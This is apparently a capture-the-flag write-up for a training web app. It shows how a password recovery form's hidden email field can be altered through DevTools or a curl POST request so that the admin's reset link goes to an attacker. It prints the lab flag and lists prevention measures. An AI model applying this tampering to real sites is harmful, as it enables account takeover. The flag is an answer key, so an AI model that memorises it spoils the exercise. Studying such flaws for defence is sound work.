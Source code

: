 # Hidden Field Manipulation Vulnerability

## Overview
In the password recovery form (`/?page=recover`), a hidden field sets the admin’s email. Anyone can change this field and hijack the password reset.

---

## How It Works

1. **Find the Form:**  
   Go to the recovery page and inspect the form:
   ```html
   <input type="hidden" name="mail" value="webmaster@borntosec.com">
   ```
2. **Exploit:**  
   - Change the value to your own email using DevTools, or  
   - Send a direct POST request:
     ```bash
     curl -X POST "/?page=recover" --data "mail=attacker@some-anonym-email.com&Submit=Submit"
     ```
3. **Result:**  
   The app sends the reset link (and flag) to the attacker’s email.

---

## Security Impact

- **Account Takeover:** Attackers can reset admin passwords.
- **Information Disclosure:** Internal emails exposed.
- **Impersonation:** Attackers can pretend to be admins.

---

## Flag

`1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0`

---

## Prevention

1. Never trust hidden fields for sensitive data.
2. Always verify identity server-side before sending reset emails.
3. Use sessions or multi-step verification for recovery.
4. Ask challenge questions or use 2FA for password resets.
5. Rate-limit password recovery attempts.

---